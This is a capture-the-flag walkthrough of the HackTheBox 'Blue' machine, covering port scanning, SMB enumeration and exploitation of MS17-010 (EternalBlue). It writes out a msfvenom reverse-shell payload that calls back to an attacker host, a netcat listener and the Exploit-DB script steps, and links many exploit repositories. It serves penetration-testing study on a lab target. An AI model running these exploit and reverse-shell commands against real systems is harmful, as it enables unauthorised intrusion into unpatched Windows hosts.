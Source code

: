 # Blue 

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Blue)  [2](https://app.hackthebox.com/machines/Blue)

**Machine ip:** 10.10.10.40

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8b31b09-f318-49b3-a8b6-0faa07b52c0d)



## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.40 -e tun0 > ports

sort -n -k4 ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.40 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/541cf98d-1908-45af-a6ea-4bfc302fdf55)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1acc49b7-1b38-4c2f-8f43-2c7d42f91b00)


## Enumeration
```
nmap --script vuln 10.10.10.40
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/be27653c-bed5-41e6-bf76-9b531c32a044)

```
smbmap -H 10.10.10.40 -u guest -p ''

smbclient //10.10.10.40/share

smbclient //10.10.10.40/users
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/19694aa3-0564-4de5-b490-bd57dd9f1df0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e9cef959-7fd1-4f26-8943-d5097d0ca541)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2017-0144](https://www.exploit-db.com/exploits/42315) - Manual Solution
```
searchsploit ms17-010

searchsploit -m 42315

mv 42315.py ms17-010.py
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ff3583a-8c7e-46f7-a6b0-27fbd1a5692b)

Modify username as **guest** in the below python exploit code:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74f3513b-14eb-452e-98ba-2dd5bd2117da)

Uncomment two lines, update the exploit code with the reverse shell executable location and get the script to execute it:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7eb03635-3cf3-4bef-b318-aa69bb2263f0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/521a14ec-bd35-4563-af1e-a7e350f62e53)

```
# On kali attack machine:
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.24 LPORT=4444 -o ms17-010.exe

nc -lnvp 4444

python2 ms17-010.py 10.10.10.40

# On the target machine:
whoami
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1dadd00f-e06d-4a7b-8a2d-b6a4c02286d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b30f7bd-8ec0-4e8b-902b-78ed57b5660b)


### Method 2: [CVE-2017-0144](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) - Metasploit Solution
+ Try with metasploit solution [1](https://ethicalhacs.com/blue-hackthebox-walkthrough/) [2](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) [3](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#metasploit) [4](https://u1sp00kies.medium.com/hack-the-box-htb-blue-walkthrough-7dac9505bc9c)


### Method 3: [CVE-2017-0143](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) Manual Solution is the same as on [Legacy Machine's Method 2](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#method-2-cve-2017-0143-ms17-010--eternal-blue--shadow-brokers--wannacry--notpetya-1-2-3)
+ Try **CVE-2017-0143** [1](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) [2](https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46) [3](https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505#4f92)


# References & Alternatives
+ https://vvmlist.github.io/#blue
+ https://medium.com/@dw3113r/hack-the-box-blue-writeup-without-metasploit-1c6f7e3c586c
  + https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/blue-writeup-w-o-metasploit
+ https://ethicalhacs.com/blue-hackthebox-walkthrough/
  + https://0xdf.gitlab.io/2021/05/11/htb-blue.html
  + https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46
  + https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505
  + https://www.hackingarticles.in/hack-the-box-challenge-blue-walkthrough/


## CVE Scripting
+ **CVE-2017-0144 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/42315
    + https://nvd.nist.gov/vuln/detail/CVE-2017-0144
  + https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/
+ **CVE-2017-0143 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/43970
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010
  + https://github.com/3ndG4me/AutoBlue-MS17-010


## Tools
+ **mysmb.py:** https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
  + https://github.com/worawit/MS17-010
+ **impacket:** https://github.com/fortra/impacket


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
  + https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution: The same as on [Legacy Machine's Problems Solution](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#problems-solution)
+ https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ https://unix.stackexchange.com/questions/654723/cant-install-python2-modules-kali-2020


## For More
+ https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010
+ https://msrc.microsoft.com/blog/2017/05/customer-guidance-for-wannacrypt-attacks/
+ https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/
+ **Shadow Brokers:** https://en.wikipedia.org/wiki/The_Shadow_Brokers
+ **WannaCry ransomware attack:** https://en.wikipedia.org/wiki/WannaCry_ransomware_attack
  + https://darknetdiaries.com/episode/73/
+ https://cwe.mitre.org/data/definitions/680.html
+ https://andyrussellcronin.wordpress.com/2012/04/13/understanding-heap-spraying/
+ https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/
